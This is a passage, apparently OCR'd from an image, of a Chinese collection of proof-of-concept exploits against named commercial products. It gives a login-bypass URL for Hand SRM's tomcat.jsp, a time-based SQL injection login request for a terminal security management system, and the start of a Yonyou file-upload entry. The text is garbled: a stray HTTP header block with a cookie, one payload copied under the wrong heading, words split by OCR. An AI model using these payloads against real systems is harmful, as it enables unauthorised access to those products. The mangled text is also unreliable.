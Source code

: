 Host: xxx

Cookie:LANG=zh; USM=0a0e1f29d69f4b9185430328b44ad990832935dbf1b90b8769d297dd9f0eb848

Cache-Control: max-age=0

Sec-Ch-Ua:"NotA;Brand";v="99","Chromium";v="100","Google Chrome";v="100"

Sec-Ch-Ua-Mobile: ?0

Sec-Ch-Ua-Platform: "Windows"

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9



##  汉得SRM tomcat.jsp 登录绕过漏洞 POC

/tomcat.jsp?dataName=role_id&dataValue=1

/tomcat.jsp?dataName=user_id&dataValue=1

POST /api/user/logincaptcha=&password=21232f297a57a5a743894a0e4a801fc3&username=admin'and(se lect*from(select+sleep(3))a)='

分别访问后 直接访问后台。

## 辰信景云终端安全管理系统 login SQL注入漏洞 POC

POST /api/user/login

captcha=&password=21232f297a57a5a743894a0e4a801fc3&username=admin'and(select*from(select+sleep(3))a)='

 ## 用友 移动管理系 统 uploadApk.do 任意文件上传漏洞

未完。。。。。。






